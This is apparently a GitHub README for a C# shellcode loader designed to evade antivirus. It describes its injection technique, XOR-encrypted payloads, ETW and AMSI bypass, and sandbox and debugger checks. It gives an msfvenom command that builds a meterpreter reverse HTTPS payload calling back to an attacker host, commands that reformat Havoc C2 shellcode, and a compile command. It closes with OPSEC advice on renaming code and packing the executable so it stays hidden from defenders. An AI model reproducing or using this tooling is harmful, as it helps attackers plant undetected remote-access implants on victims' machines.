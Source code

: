 ### C# ShellCode Loader 2
--------------------------------------
Shellcode loader (written in C#) that implements several antivirus bypass and defense evasion techniques. <br> 

<i/>Note: I simply reused and modified codes from various Github projects.</i>

#### FEATURES
  - Classic shellcode injection technique using the function 'CreateThreadpoolWait'
  - Shellcode encryption (XOR)
  - ETW bypass
  - AMSI bypass
  - Basic sandbox detection/evasion techniques
    - Exit if the program is running on a computer that is not joined to a domain
    - Exit if after sleeping for 15s, time did not really passed
    - Exit if a debugger is attached
    - Exit if making an uncommon API call fails (i.e. we are running in an AV sandbox that can't emulating it)
  - Compatible with shellcodes of multiple C2 frameworks such as Metasploit and Havoc
    
#### TESTS
- Succesfully tested on a Windows 10 x64 laptop (target) with Windows Defender enabled (without 'Automatic sample submission') and shellcodes of multiple C2 frameworks (in C# format & encrypted with XOR cipher algorithm)

#### INPUT (Shellcode formats)
Your shellcode must be in C# format (see examples below) and then encrypted using XOR cipher algorithm.
Obviously, both the encrypted shellcode and your XOR key must be added in the file 'CsharpShellCodeLoader.cs' before you compile it.

- Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f csharp -o  shellcode```  
  
- Havoc C2 Framework  
    1. Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64 / Indirect Syscall: Enabled / Sleep Technique: WaitForSIngleObjectEx)  
    2. To convert the Havoc shellcode to the appropriate format you need to run these commands:  
       ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
       ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  

#### COMPILATION 
- I used "Developer PowerShell for VS 2022":
  - Microsoft (R) Visual C# Compiler version 4.5.0-6.23123.11
  - Command: csc /t:exe /out:C:\path\Loader.exe C:\path\CsharpShellCodeLoader2.cs

#### OPSEC Advices
- The file 'CsharpShellCodeLoader.cs' is not obfuscated. Class/function/variable names should be changed and all comments must be deleted or modified before compiling this file.
- Once compiled, if you want to compress and obfuscate the shellcodeloader executable you can use packers like "ConfuserEx" (but it is not necessary in order to bypass most AV solutions).
  
